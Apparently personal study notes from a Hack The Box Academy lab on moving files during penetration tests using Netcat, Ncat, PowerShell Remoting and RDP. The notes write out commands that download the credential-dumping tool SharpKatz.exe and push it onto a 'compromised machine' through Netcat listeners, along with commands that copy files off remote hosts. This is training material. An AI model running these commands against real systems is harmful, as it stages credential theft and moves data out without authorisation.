 
This section will cover alternative methods such as transferring files using [Netcat](https://en.wikipedia.org/wiki/Netcat), [Ncat](https://nmap.org/ncat/) and using RDP and PowerShell sessions.
https://academy.hackthebox.com/module/24/section/161
===============================================
## netcat EXFIL
In this example, we'll transfer [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.

We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_\(stdin\)) 

`NetCat - Compromised Machine - Listening on Port 8000
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

`Netcat-attacker`
```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

## NETCAT download
`NEtCat - Attack Host - Sending File to Compromised machine`
```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
# Example using Ncat
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

instead of listening, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.
```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

===============================================
## PS Remoting File Transfer (windows-environment)

out doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.
To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.
![](Pasted%20image%2020250311160348.png)
Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.

`` Create a PowerShell Remoting Session to DATABASE01`
```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

We can use the `Copy-Item` cmdlet to copy a file from our local machine `DC01` to the `DATABASE01` session we have `$Session` or vice versa.

`Copy samplefile.txt from our Localhost to the DATABASE01 Session`
```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

`Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
===============================================
## RDP
RDP (Remote Desktop Protocol) is commonly used in Windows networks for remote access. We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use `xfreerdp` or `rdesktop`. At the time of writing, `xfreerdp` and `rdesktop` allow copy from our target machine to the RDP session, but there may be scenarios where this may not work as expected.

`Mounting a linux folder to rdp session disk`
```shell-session
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
![500](Pasted%20image%2020250311160818.png)
Alternatively, from Windows, the native [mstsc.ex](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used.

![500](https://academy.hackthebox.com/storage/modules/24/rdp.png)


After selecting the drive, we can interact with it in the remote session that follows.

**Note:** This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.